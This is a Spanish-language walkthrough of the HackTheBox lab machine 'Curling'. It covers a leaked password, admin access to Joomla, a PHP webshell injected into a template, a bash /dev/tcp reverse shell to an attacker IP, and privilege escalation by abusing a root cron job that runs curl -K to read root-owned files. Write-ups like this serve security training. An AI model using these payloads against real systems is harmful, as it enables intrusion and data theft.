








## Introducción
El día de hoy veremos la máquina **Curling** de la plataforma de HackTheBox. Se trata de una máquina Linux de nivel fácil que aborda los siguientes conceptos:

- Information Leakage
- Joomla Enumeration
- Joomla Exploitation [Abusing Templates] [RCE]
- Decompression Challenge
- Abusing Curl [Playing with Config files] [Privilege Escalation]

## Resolución

# Reconocimiento

Iniciamos el proceso con un escaneo exhaustivo de puertos utilizando `nmap` para identificar los servicios activos en el sistema objetivo:

```bash
nmap -p- --open -sSCV --min-rate 5000 -n -Pn -vvv 10.129.1.98 -oN puertos.txt
```

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
|   256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
|_  256 c1:2a:35:44:30:0c:5b:56:6a:3f:a5:cc:64:66:d9:a9 (ED25519)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home
|_http-generator: Joomla! - Open Source Content Management
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Identificamos 2 puertos abiertos. Los servicios más relevantes para nuestra explotación son: SSH (22) y HTTP (80).

### Puerto 80 - HTTP

Al acceder al puerto 80, identificamos un sitio web que ejecuta Joomla CMS:



### Enumeración del Código Fuente

Procedemos a examinar el código fuente de la página principal. Durante el análisis, identificamos un comentario interesante que hace referencia a un archivo llamado `secret.txt`:



Al acceder al archivo `http://10.129.1.98/secret.txt`, encontramos una cadena codificada en Base64:



Al decodificar esta cadena, obtenemos la contraseña: `Curling2018!`

### Identificación de Usuario

Continuando con la enumeración de la página principal, identificamos un usuario llamado **floris** que ha publicado contenido en el sitio:



### Acceso al Panel de Administración

Probamos las credenciales `floris:Curling2018!` en el panel de administración de Joomla (`/administrator`) y conseguimos acceder exitosamente:



# Explotación

### Joomla Template Exploitation

Investigamos métodos para obtener ejecución remota de código (RCE) en Joomla teniendo privilegios de administrador. Según la documentación de HackTricks (https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/joomla.html), podemos modificar plantillas PHP para inyectar código malicioso.

Seguimos estos pasos:

**Paso 1:** Navegamos al menú de **Templates**:



**Paso 2:** Seleccionamos la plantilla actualmente en uso, en este caso **Protostar**:



**Paso 3:** Modificamos el archivo `error.php` de la plantilla e inyectamos una webshell simple:

```php
<?php system($_GET['cmd']); ?>
```


**Paso 4:** Accedemos a la webshell mediante la URL:

```
http://10.129.1.98/templates/protostar/error.php?cmd=id
```



### Reverse Shell

Con la webshell funcionando, procedemos a obtener una reverse shell. Nos ponemos en escucha con `netcat`:

```bash
nc -lvnp 4444
```

Ejecutamos el siguiente comando a través de la webshell para enviarnos una reverse shell:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.120/4444 0>&1'
```

URL-encoded:

```
http://10.129.1.98/templates/protostar/error.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.120%2F4444%200%3E%261%27
```

Recibimos exitosamente la reverse shell en nuestra máquina atacante como el usuario `www-data`.

La flag de usuario se encuentra en `/home/floris/user.txt`, pero aún necesitamos escalar privilegios para acceder a ella.

# Escalada de Privilegios

### Enumeración como www-data

Navegando por el sistema, identificamos un archivo interesante en el directorio home de floris:

```bash
ls -la /home/floris/
```

Encontramos un archivo llamado `password_backup` que contiene un hexdump:

```hex
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48                                ...H
```

### Descompresión del Backup

Los primeros tres bytes (`BZh`) indican que se trata de un archivo comprimido con bzip2. Procedemos a descomprimir el archivo en múltiples capas:

```bash
# Convertir el hexdump a binario
cat password_backup | xxd -r > password_backup.bz2

# Primera descompresión (bzip2)
bunzip2 password_backup.bz2

# Segunda descompresión (gzip)
gunzip password_backup.gz

# Tercera descompresión (bzip2)
mv password_backup password_backup2.bz2
bunzip2 password_backup2.bz2

# Cuarta descompresión (tar)
mv password_backup2 password_backup.tar
tar xvf password_backup.tar

# Obtenemos el archivo final
cat password.txt
```

El archivo `password.txt` contiene la contraseña: `5d<wdCbdZu)|hChXll`

### Shell como floris

Con esta contraseña, podemos cambiar al usuario floris:

```bash
su - floris
Password: 5d<wdCbdZu)|hChXll
```

Ahora podemos leer la flag de usuario:

```bash
cat /home/floris/user.txt
```

### Enumeración del Directorio admin-area

En el directorio home de floris, identificamos un directorio llamado `admin-area`:

```bash
ls -la /home/floris/admin-area/
```

Este directorio contiene dos archivos:
- `input`: Archivo de configuración
- `report`: Archivo de salida

Examinamos el contenido:

```bash
cat input
url = "http://127.0.0.1"

cat report
<!DOCTYPE html>
<html lang="en-gb" dir="ltr">
...
```

### Identificación del Cron Job
Utilizamos `pspy` para identificar procesos en ejecución. Identificamos el siguiente cron job ejecutándose como root:

```bash
/bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
/bin/sh -c sleep 1; cat /root/default.txt > /home/floris/admin-area/input
```

### Shell como Root
La opción `-K` de curl nos permite especificar parámetros que serán tratados como si fueran argumentos de línea de comandos. Podemos aprovechar esto para leer archivos como root.

**Lectura de root.txt:**

Modificamos el archivo `input`:

```bash
url = "file:///root/root.txt"
output = "/home/floris/root.txt"
```

Esperamos a que el cron job se ejecute y leemos el resultado:

¡Ya somos root! 🎉